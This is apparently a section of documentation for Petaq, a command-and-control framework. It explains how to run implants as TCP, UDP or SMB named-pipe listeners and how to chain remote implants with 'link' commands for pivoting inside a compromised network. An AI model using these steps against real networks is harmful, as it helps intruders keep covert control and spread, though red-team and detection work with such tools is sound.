 # Implant to Implant Linking
## Running Petaq Implant as Listener
In addition to the direct Websocket connections to the C2, the Petaq implant can also link other Petaq implants on the remote network, or listen to a TCP/UDP port or SMB Named Pipe for linking. It's possible to run Petaq implant on a remote system through the Lateral Movement techniques explained above, to listen other Petaq implant connections. The following model can be used with run arguments.
```
C2 <------Websocket------>Petaq Implant<-----SMB Named Pipe----->Petaq Implant
                                       <-----TCP Port----------->Petaq Implant
                                       <-----UDP Port----------->Petaq Implant
```

Running Petaq Implant as Listener using Arguments
* Run Petaq implant to listen to the TCP port 8000
```
petaqimplant.exe tcp 8000
```
* Run Petaq implant to listen to the UDP port 8000
```
petaqimplant.exe udp 8000
```
* Run Petaq implant to listen to the SMB Named Pipe given as a parameter
```
petaqimplant.exe smb petaq_comm
```

## Linking Remote Petaq Implants
Petaq can link remote Petaq implants through the link command and URIs given. The URI needs to have the remote IP of the Petaq implant, and also the port. If SMB Named Pipe is not given, Petaq will use the default named pipe in the Configuration.cs. 
```
link tcp://REMOTEPETAQIP/8002
link udp://REMOTEPETAQIP/8002
link smb://REMOTEPETAQIP
link smb://REMOTEPETAQIP/petaq_comm
```
To remove the sessions linked (successful or failed), ```unlink SESSIONID``` can be used.

## Route and Session Information
Petaq implant can give some information about the sessions linked (successful or failed) and route information. 
In Petaq Implant, ```sessions``` and ```route``` would give information about the linked sessions. In Petaq service interface, ```route``` can also give overal routing table if there is any implant to implant linking.
